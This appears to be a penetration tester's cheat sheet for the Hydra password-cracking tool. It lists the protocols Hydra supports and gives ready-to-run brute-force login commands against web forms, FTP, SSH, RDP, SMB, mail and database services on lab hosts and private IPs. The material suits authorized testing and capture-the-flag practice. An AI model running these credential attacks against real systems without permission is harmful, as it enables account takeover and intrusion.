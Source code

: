 ```yaml
---
category: Uncategorized
tags: []
---
```

hydra

Available Hydra Protocols

~~~
Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP,  HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP
~~~

Hydra Examples
 
HTTP-POST-FORM

~~~bash
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst domain.htb http-post-form "/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Login name or password is incorrect" -V
~~~

HTTPS-POST-FORM

~~~bash
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst domain.htb  https-post-form "/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Login name or password is incorrect" -V
~~~

HTTP-GET

~~~bash
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst sizzle.htb.local http-get /certsrv/
~~~

HTTPS-GET

~~~bash
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst sizzle.htb.local https-get /certsrv/
~~~

FTP

~~~bash
hydra -l user -P passlist.txt ftp://10.10.134.169
~~~

SSH

~~~bash
hydra -l <username> -P <full path to pass> 10.10.134.169 -t 4 ssh
~~~

IMAP

~~~bash
hydra -l USERNAME -P /path/to/passwords.txt -f <IP> imap -V

hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 993 -f <IP> imap -V
~~~

MYSQL

~~~bash
hydra -L usernames.txt -P pass.txt <IP> mysql
~~~

POP

~~~bash
hydra -l USERNAME -P /path/to/passwords.txt -f <IP> pop3 -V

hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 995 -f <IP> pop3 -V
~~~

POSTGRESQL

~~~bash
hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt <IP> postgres
~~~

RDP

~~~bash
hydra -V -f -L <userslist> -P <passwlist> rdp://<IP>
~~~

SMB

~~~bash
hydra -l Administrator -P words.txt 192.168.1.12 smb -t 1
~~~

SMTP

~~~bash
hydra -l <username> -P /path/to/passwords.txt <IP> smtp -V

hydra -l <username> -P /path/to/passwords.txt -s 587 <IP> -S -v -V
~~~

Telnet

~~~bash
hydra -l root -P passwords.txt [-t 32] <IP> telnet
~~~

